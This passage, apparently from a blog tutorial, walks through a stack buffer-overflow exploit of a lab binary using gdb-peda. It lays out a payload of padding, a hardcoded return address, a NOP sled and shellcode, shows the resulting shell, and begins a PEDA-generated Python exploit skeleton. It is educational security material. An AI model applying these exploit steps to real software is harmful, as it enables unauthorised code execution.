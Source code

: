 it so the payload is broken down as follows
* "A" * 76     - 76 A's (which we found using pattern offset)
* "BBBB"       - This will end up being the return address to our shellcode
* "0x90" * 500 - 500 NOPS which gives us a margin of error with the return
                 address
* shellcode    - Our shellcode string we stored in the variable earlier

Right we currently have one thing left to do, find the address to jump to! When
the program crashed peda displayed a nice view of the stack and it seems to be
filled with our NOPS so we'll pick and address near the bottom and insert it
into our payload
```
  gdb-peda$ pset arg '"A" * 76 + "\x6c\xf4\xff\xbf" + "\x90"*500 + shellcode'
  gdb-peda$ r
  AAAAAAAAAAAAAAAA........
  process 8331 is executing new program: /bin/dash
  $ 
```
Hey presto we have a shell! Why is the address backwards? little endian my
friends! go and google it. One point to note is that peda provides a function
for you to do this so you arg could become
```
  gdb-peda$ pset arg '"A" * 76 + int2hexstr(0xbffff46c) + "\x90"*500 + shellcode'
```

# Weaponize it!
Lets use peda to weaponize this thing! PEDA has some nifty commands to write
exploit skeletons
```
  gdb-peda$ skeleton argv exploit.py
  Writing skeleton code to file "exploit.py"
```
This has generated the following code

{% highlight python %}
#!/usr/bin/env python
#
# Template for local argv exploit code, generated by PEDA
#
import os
import sys
import struct
import resource
import time

def usage():
    print "Usage: %s target_program" % sys.argv[0]
    return

def pattern(size=1024, start=0):
    try:
        bytes = open("pattern.txt").read(size+start)
        return bytes[start:]
    except:
        return "A"*size

def nops(size=1024):
    return "\x90"*size

def int2hexstr(num, intsize=4):
    if intsize == 8:
        if num < 0:
            result = struct.pack("<q", num)
        else:
            result = struct.pack("<Q", num)